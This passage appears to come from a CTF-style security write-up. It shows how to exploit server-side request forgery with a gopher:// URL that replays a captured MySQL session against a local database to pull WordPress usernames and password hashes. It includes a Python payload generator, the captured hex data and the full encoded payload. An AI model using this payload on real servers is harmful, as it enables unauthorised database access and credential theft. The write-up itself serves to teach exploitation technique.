 The mentioned article shows us how to simulate the MySQL request in a local environment, retrieve data transmitted and replay them. This means that MariaDB has no specific protection against regame or authenticity.

<center>
![](/img/infosec_stuff/odie_gs/red_10.gif)
</center>

Displayed bytes at the end of the above GIF will be used as payload to get the username and hashed password from the WordPress database. With a little python script, stolen to our asian friends, I will be able to generate the complete payload:

```python
#!/usr/bin/python2

def result(s):
  a = [s[i:i+2] for i in xrange(0, len(s), 2)]
  return "gopher://127.0.0.1:3306/_%" + "%".join(a)

if __name__ == "__main__":
  import sys
  s = sys.argv[1]
print result(s)
```

In fact, this python script will just add `gopher://127.0.0.1:3306/_` in front of our payload and add a `%` every two characters. Otherwise, the web server will not take the data as hex data.

```bash
host $ cat ssrf_mysql2 | xxd -p | tr -d '\n'
ac00000185a23f000000000121000000000000000000000000000000000000000000000077705f6d7973716c5f7573657200006d7973716c5f6e61746976655f70617373776f72640066035f6f73054c696e75780c5f636c69656e745f6e616d65086c69626d7973716c045f70696404393230360f5f636c69656e745f76657273696f6e0731302e312e3337095f706c6174666f726d067838365f36340c70726f6772616d5f6e616d65056d7973716c300000000373656c65637420757365725f6c6f67696e2c757365725f706173732066726f6d2077705f64622e77705f75736572730100000001

host $ ./parse.py ac00000185a23f000000000121000000000000000000000000000000000000000000000077705f6d7973716c5f7573657200006d7973716c5f6e61746976655f70617373776f72640066035f6f73054c696e75780c5f636c69656e745f6e616d65086c69626d7973716c045f70696404393230360f5f636c69656e745f76657273696f6e0731302e312e3337095f706c6174666f726d067838365f36340c70726f6772616d5f6e616d65056d7973716c300000000373656c65637420757365725f6c6f67696e2c757365725f706173732066726f6d2077705f64622e77705f75736572730100000001
gopher://127.0.0.1:3306/_%ac%00%00%01%85%a2%3f%00%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%77%70%5f%6d%79%73%71%6c%5f%75%73%65%72%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%04%39%32%30%36%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%07%31%30%2e%31%2e%33%37%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%30%00%00%00%03%73%65%6c%65%63%74%20%75%73%65%72%5f%6c%6f%67%69%6e%2c%75%73%65%72%5f%70%61%73%73%20%66%72%6f%6d%20%77%70%5f%64%62%2e%77%70%5f%75%73%65%72%73%01%00%00%00%01
```

By filling the "URL" input of `test.php` with our ugly payload, there is a nice return in front of our eyes: 
